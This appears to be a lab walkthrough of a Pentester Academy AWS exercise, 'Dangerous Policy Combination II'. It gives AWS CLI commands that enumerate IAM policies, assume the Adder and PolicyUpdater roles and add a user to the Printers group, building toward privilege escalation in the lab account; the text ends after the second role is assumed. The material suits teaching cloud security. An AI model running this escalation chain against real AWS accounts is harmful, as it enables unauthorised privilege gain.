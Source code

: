### Dangerous Policy Combination II

First the profile has to be configured with the access keys provided by PT Academy

## Walkthrough

Get the attached user policies for `student` user which shows `IAMReadOnlyAccess` permission 

![image](https://user-images.githubusercontent.com/46797181/222863836-e087ae15-632c-4700-9537-0d8fa592fd96.png)

To get information about that attached policy, execute the below commands

```
aws iam list-user-policies --user-name student --profile PTAcademyJllerena
aws iam get-user-policy --user-name student --policy-name terraform-20230304005305909200000003 --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222868760-5cc5c2d0-0081-48c0-918f-34ce5cc9b98a.png)

Trying to create a user with `aws iam create-user --user-name jllerena --profile PTAcademyJllerena` will give a denied message direc

![image](https://user-images.githubusercontent.com/46797181/222869046-fa11aa80-93a7-4937-ac97-cbbfa03447f9.png)

Check Adder role policies and permissions. Also, check the role-policy document

```
aws iam list-role-policies --role-name Adder --profile PTAcademyJllerena
aws iam get-role-policy --role-name Adder --policy-name AddUser --profile PTAcademyJllerena 

```
![image](https://user-images.githubusercontent.com/46797181/222869512-0fd5c70d-5d77-4923-926a-397c12074313.png)

Role policy says that role Adder has permission to add any user to the Printers group. Next step is to assume Adder role with student user. `aws sts assume-role --role-arn arn:aws:iam::213923356313:role/Adder --role-session-name adder_jllerena --profile PTAcademyJllerena` 

![image](https://user-images.githubusercontent.com/46797181/222869789-58fb66f0-b288-4b69-a6e0-c3bb2eb9bbae.png)

Add student user to printers group and unset environment variable. 

```
aws iam add-user-to-group --group-name Printers --user-name student
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN

```
List groups for the student user. `aws iam list-groups-for-user --user-name student --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222870473-52b827c6-77ba-4a26-b2bc-8bc21df7156b.png)

Check the policies attached to the PolicyUpdater role policies and check the role-policy document.
```
aws iam list-role-policies --role-name PolicyUpdater --profile PTAcademyJllerena
aws iam get-role-policy --role-name PolicyUpdater --policy-name CreatePolicyVersion --profile PTAcademyJllerena
```

![image](https://user-images.githubusercontent.com/46797181/222870852-ed359f25-7b31-462a-ac7b-12162fcffdd3.png)

Role policy says that role PolicyUpdater has permission to create a new PolicyVersion for `Print` policy. Check the policies attached to the group `Printers`. `aws iam list-attached-group-policies --group-name Printers --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222871232-0a83488b-db51-4482-b054-cd0ae52b7a3b.png)

The Print policy is attached to the Printers group. List the version of policies available for Print policy `aws iam get-policy --policy-arn arn:aws:iam::213923356313:policy/Print --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222871463-961b5e3f-fb4c-4d37-8fb6-520ac16d3534.png)

View the policy document for v1 version of Print policy `aws iam get-policy-version --policy-arn arn:aws:iam::213923356313:policy/Print --version-id v1 --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222871742-3b49d9f8-4830-43cf-961e-754c8767f9c0.png)

Assume PolicyUpdater role. `aws sts assume-role --role-arn arn:aws:iam::213923356313:role/PolicyUpdater --role-session-name policy_jllerena --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222871903-58f59a50-c386-4b5c-86e4-2202dac6d638.png)


